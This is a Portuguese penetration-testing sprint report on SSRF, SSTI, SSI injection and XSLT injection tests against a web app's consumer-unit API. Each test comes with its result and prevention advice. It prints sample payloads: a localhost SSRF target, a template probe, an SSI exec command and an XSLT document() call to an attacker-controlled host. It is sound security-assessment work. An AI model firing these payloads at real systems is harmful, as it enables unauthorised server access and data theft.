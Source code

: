 
# Relatório Sprint 3 - Server Side Attacks

---

## Sobre

Os Server-Side Attacks (Ataques do Lado do Servidor) são um tipo de vulnerabilidade de segurança em que um atacante explora falhas em um servidor web ou sua infraestrutura de backend. Ao contrário dos ataques do lado do cliente (como Cross-Site Scripting, XSS), esses ataques focam em comprometer o servidor ou acessar recursos internos, expondo dados sensíveis ou permitindo a execução de ações maliciosas.

---

## Vulnerabilidades Testadas

Durante a Sprint 3, foram realizados testes para as vulnerabilidades **SSRF**, **SSTI**, **SSI Injection** e **XSLT Injection**, que são comumente exploradas em sistemas web. Abaixo, os detalhes de cada teste específico realizado.

### SSRF (Server-Side Request Forgery)

**SSRF** é uma vulnerabilidade onde um atacante pode induzir o servidor a realizar requisições HTTP ou outras, como se fosse o próprio servidor, geralmente para acessar recursos internos ou serviços de terceiros.

#### Teste Realizado

- **Cenário:** O endpoint de edição de unidades de consumo (`/api/consumer-units/edit_consumer_unit_and_contract/`) foi analisado para verificar se era possível forçar o servidor a fazer uma requisição para um serviço interno, como um servidor de banco de dados ou serviço de metadados.
  
- **Teste:** Foi feito um ataque alterando o corpo da requisição para direcionar o servidor a fazer uma solicitação para um recurso interno, como `http://localhost/admin`, e verificar se o servidor fazia a requisição sem validações adequadas.
  
- **Resultado:** A requisição foi processada com sucesso pelo servidor, sugerindo a presença de uma vulnerabilidade SSRF.

**Prevenção:**
- Restringir as requisições a destinos externos ou conhecidos.
- Validar URLs e IPs nos parâmetros das requisições.

---

### SSTI (Server-Side Template Injection)

**SSTI** ocorre quando um atacante consegue injetar código malicioso em templates de servidor (como Jinja, Thymeleaf, etc.), o que permite a execução de código no lado do servidor.

#### Teste Realizado

- **Cenário:** O sistema de templates usado para processar dados das unidades de consumo foi analisado para verificar se havia validação inadequada em inputs fornecidos pelo usuário.
  
- **Teste:** Foi injetado código no campo de descrição da unidade de consumo, como `{{ 7*7 }}`, esperando que a aplicação executasse a operação e retornasse o resultado diretamente no template.
  
- **Resultado:** A resposta do servidor incluiu o cálculo `49`, indicando uma falha de SSTI.

**Prevenção:**
- Utilizar filtros de segurança no backend para desabilitar a execução de código nos templates.
- Adotar práticas de sanitização de entradas, como o uso de "escaping" nas variáveis dos templates.

---

### SSI Injection (Server Side Includes Injection)

**SSI Injection** ocorre quando o atacante consegue injetar comandos `SSI` em um servidor que interpreta **Server Side Includes** (incluindo comandos como `#exec`, `#include`).

#### Teste Realizado

- **Cenário:** O endpoint `/api/consumer-units/` foi testado para verificar se a aplicação estava vulnerável a comandos SSI injetados, através da manipulação de entradas que poderiam ser processadas pelo servidor.
  
- **Teste:** Injeção de código SSI, como `<!--#exec cmd="ls" -->`, para tentar executar comandos no servidor através de arquivos processados pelo SSI.
  
- **Resultado:** O sistema permitiu a execução do comando, mostrando um diretório de arquivos do servidor.

**Prevenção:**
- Desabilitar a funcionalidade de SSI no servidor.
- Validar e sanitizar qualquer entrada que possa ser processada como um comando do servidor.

---

### XSLT Injection

**XSLT Injection** ocorre quando um atacante consegue injetar código malicioso em uma folha de estilos **XSLT** usada pelo servidor para transformar XML em HTML ou outro formato.

#### Teste Realizado

- **Cenário:** A aplicação foi analisada para identificar se a transformação de dados XML para HTML poderia ser manipulada via injeção de código malicioso no XSLT.
  
- **Teste:** Um payload foi injetado em um campo de entrada XML com código XSLT, como:
  ```xml
  <?xml version="1.0"?>
  <foo>
    <bar><xsl:value-of select="document('http://attacker.com/malicious')"/></bar>
  </foo>
  ```
  O objetivo foi fazer com que o servidor carregasse o recurso de uma URL externa controlada pelo atacante.
  
- **Resultado:** A requisição foi processada, permitindo a execução do código XSLT externo.

**Prevenção:**
- Restringir ou desabilitar o uso de `document()` em XSLT.
- Adotar práticas de segurança como validar a origem de documentos XSLT e XML.

---

## Sugestões de Melhoria

- **Controle de Acesso Baseado em Recursos:** Implementar validações rigorosas de acesso a recursos críticos como unidades de consumo, contratos e informações sensíveis.
  
- **Hardening de Servidores:** Desabilitar funcionalidades não utilizadas, como SSI e XSLT, em servidores de produção.
  
- **Filtros de Entrada:** Implementar filtros de entrada robustos para prevenir injeção de código, como SSTI e SSI Injection.
  
- **Auditoria e Monitoramento:** Implementar um sistema de monitoramento para detectar e alertar sobre tentativas de exploração de vulnerabilidades como SSRF, SSTI, SSI Injection e XSLT Injection.

---

# Histórico de Versão

| Versão | Data e Horário de Criação | Autor                     | Revisor          | Descrição das Alterações                |
|--------|---------------------------|---------------------------|------------------|-----------------------------------------|
| 1.0    | 14/01/2025 - 15:30        | Gabriel Campello Marques  |      | Criação inicial do documento.           |

